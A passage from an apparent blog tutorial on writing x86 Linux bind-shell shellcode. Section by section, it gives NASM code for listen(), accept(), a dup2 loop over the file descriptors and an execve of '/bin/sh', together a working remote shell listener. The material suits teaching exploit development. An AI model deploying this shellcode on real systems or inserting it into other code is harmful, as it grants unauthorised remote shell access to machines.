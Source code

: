 push ecx
push esi
mov ecx, esp

int 0x80
{% endhighlight %}

### Listen 
Setting up `listen()` was also straightforward; the only oddity here is
shifting EBX from 2 to 4 to avoid two calls to `inc ebx`. 
{% highlight nasm %}
mov eax, edi
shl ebx, 0x1

push byte 0x1
push esi
mov ecx, esp

int 0x80
{% endhighlight %}

### Accept 
When we call `accept()`, we don't really care about the remote address, so 
we'll set its sockaddr_in and sizeof() arguments to `NULL`. 
{% highlight nasm %}
mov eax, edi
inc ebx

push dword edx
push esi
mov ecx, esp

int 0x80
{% endhighlight %}

### Dup FD 
Binding the file descriptors takes the form of a simple INC/CMP/JMP loop:
{% highlight nasm %}
xchg eax, ebx
xor ecx, ecx

dup_loop:
    mov al, 0x3f
    int 0x80
    inc ecx
    cmp cl, 0x3
    jle dup_loop
{% endhighlight %}

### Exec 
Finally, we'll execute "/bin/sh" using the EXECVE syscall:
{% highlight nasm %}
push edx
push 0x68732F2F
push 0x6E69622F
mov ebx, esp
xor eax, eax
mov al, 0xB
xor ecx, ecx
int 0x80
{% endhighlight %}
